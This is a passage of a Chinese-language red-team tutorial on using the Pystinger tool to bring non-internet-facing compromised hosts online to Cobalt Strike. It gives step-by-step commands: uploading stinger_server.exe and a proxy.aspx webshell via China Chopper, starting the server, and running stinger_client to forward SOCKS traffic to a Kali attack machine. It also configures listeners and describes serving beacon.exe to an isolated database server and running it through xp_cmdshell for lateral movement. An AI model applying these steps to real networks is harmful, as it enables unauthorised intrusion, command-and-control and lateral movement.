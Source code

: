   

webshell只负责流量转发，大部分建立连接及处理数据的工作由stinger_server完成，stinger_client则用于接收转发过来的流量数据以及与CS/MSF的listener建立TCP连接等。

  

大致原理如下图，更为详细的原理分析可阅读“奇安信安全服务”公众号中的“[红队攻防实践：不出网主机搭建内网隧道新思路](http://mp.weixin.qq.com/s?__biz=MzI4MzA0ODUwNw==&mid=2247484958&idx=1&sn=a6fcfa2f4b7c5e1d0b3d3a368b4c92ef&chksm=eb91e94adce6605cbd9f2716d69d11b805448edb215ecff160003ea4b87f5749862c6db58491&scene=21#wechat_redirect)”一文进行学习了解。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123224.png)

  

 **0x03  Pystinger上线不出网主机**

我们先将Pystinger项目的服务端stinger_server.exe、proxy.aspx通过中国菜刀上传至目标磁盘可读写目录中，访问proxy.aspx返回`UTF-8`表示正常，接着执行以下命令启动服务端。  

  * 

    
    
    start C:\inetpub\wwwroot\stinger_server.exe 0.0.0.0

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123225.png)  

  

 **注：** 作者提示不要直接运行D:/XXX/stinger_server.exe，因为这样可能会导致TCP断连。

  

将客户端stinger_client上传至Kali攻击机的tmp临时目录，然后再执行以下命令将Socks4的代理流量转发到我们Kali攻击机60000端口上，只要把-
w参数替换为自己上传的代理脚本地址即可。

  *   * 

    
    
    root@kali:/tmp# chmod 777 stinger_clientroot@kali:/tmp# ./stinger_client -w http://192.168.56.102/proxy.aspx -l 127.0.0.1 -p 60000

![]()  

 **场景1：单主机上线**

已控主机为单主机，不出外网且仅允许访问目标Web的80端口。如遇这种场景时可在执行完以上操作后在CobaltStrike创建一个Listener，HTTP
Hosts填`127.0.0.1`，HTTP Port填`60020`。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123226.png)  

 **场景2：多主机上线**

已控主机为内网其中一台主机，双网卡（192.168.56.X为出网段，192.168.186.X为不出网段），在对不出网段中的其他内网主机进行横向移动上线时可在执行完以上操作后在CobaltStrike创建一个Listener，HTTP
Hosts填`192.168.186.3`，HTTP Port填`60020`。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123227.png)

  

配置好监听后生成一个可执行马儿，将该文件放至192.168.186.3的Web服务器中供192.168.186.4断网数据库服务器下载，再利用xp_cmdshell组件执行`beacon.exe`后即可成功上线，Pystinger客户端那边也收到了相关连接数据。
